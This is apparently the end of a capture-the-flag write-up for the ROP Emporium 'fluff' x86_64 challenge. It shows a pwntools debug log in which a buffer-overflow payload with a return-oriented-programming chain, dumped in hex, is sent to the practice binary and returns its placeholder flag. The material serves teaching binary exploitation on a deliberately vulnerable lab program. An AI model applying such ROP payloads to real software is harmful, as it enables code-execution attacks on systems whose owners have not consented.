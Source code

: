 ```
[DEBUG] Received 0x68 bytes:
    b'fluff by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'You know changing these strings means I have to rewrite my solutions...\n'
    b'> '
[DEBUG] Sent 0x191 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  a3 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  28 10 60 00  00 00 00 00  2a 06 40 00  00 00 00 00  │(·`·│····│*·@·│····│
    00000040  00 40 00 00  00 00 00 00  c7 c4 3f 00  00 00 00 00  │·@··│····│··?·│····│
    00000050  28 06 40 00  00 00 00 00  39 06 40 00  00 00 00 00  │(·@·│····│9·@·│····│
    00000060  2a 06 40 00  00 00 00 00  00 40 00 00  00 00 00 00  │*·@·│····│·@··│····│
    00000070  e1 c2 3f 00  00 00 00 00  28 06 40 00  00 00 00 00  │··?·│····│(·@·│····│
    00000080  39 06 40 00  00 00 00 00  2a 06 40 00  00 00 00 00  │9·@·│····│*·@·│····│
    00000090  00 40 00 00  00 00 00 00  78 c4 3f 00  00 00 00 00  │·@··│····│x·?·│····│
    000000a0  28 06 40 00  00 00 00 00  39 06 40 00  00 00 00 00  │(·@·│····│9·@·│····│
    000000b0  2a 06 40 00  00 00 00 00  00 40 00 00  00 00 00 00  │*·@·│····│·@··│····│
    000000c0  7c c4 3f 00  00 00 00 00  28 06 40 00  00 00 00 00  │|·?·│····│(·@·│····│
    000000d0  39 06 40 00  00 00 00 00  2a 06 40 00  00 00 00 00  │9·@·│····│*·@·│····│
    000000e0  00 40 00 00  00 00 00 00  f5 c2 3f 00  00 00 00 00  │·@··│····│··?·│····│
    000000f0  28 06 40 00  00 00 00 00  39 06 40 00  00 00 00 00  │(·@·│····│9·@·│····│
    00000100  2a 06 40 00  00 00 00 00  00 40 00 00  00 00 00 00  │*·@·│····│·@··│····│
    00000110  72 c2 3f 00  00 00 00 00  28 06 40 00  00 00 00 00  │r·?·│····│(·@·│····│
    00000120  39 06 40 00  00 00 00 00  2a 06 40 00  00 00 00 00  │9·@·│····│*·@·│····│
    00000130  00 40 00 00  00 00 00 00  e0 c2 3f 00  00 00 00 00  │·@··│····│··?·│····│
    00000140  28 06 40 00  00 00 00 00  39 06 40 00  00 00 00 00  │(·@·│····│9·@·│····│
    00000150  2a 06 40 00  00 00 00 00  00 40 00 00  00 00 00 00  │*·@·│····│·@··│····│
    00000160  28 c2 3f 00  00 00 00 00  28 06 40 00  00 00 00 00  │(·?·│····│(·@·│····│
    00000170  39 06 40 00  00 00 00 00  a3 06 40 00  00 00 00 00  │9·@·│····│··@·│····│
    00000180  28 10 60 00  00 00 00 00  10 05 40 00  00 00 00 00  │(·`·│····│··@·│····│
    00000190  0a                                                  │·│
    00000191
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```

And it looks like we have the flag: `ROPE{a_placeholder_32byte_flag!}`!
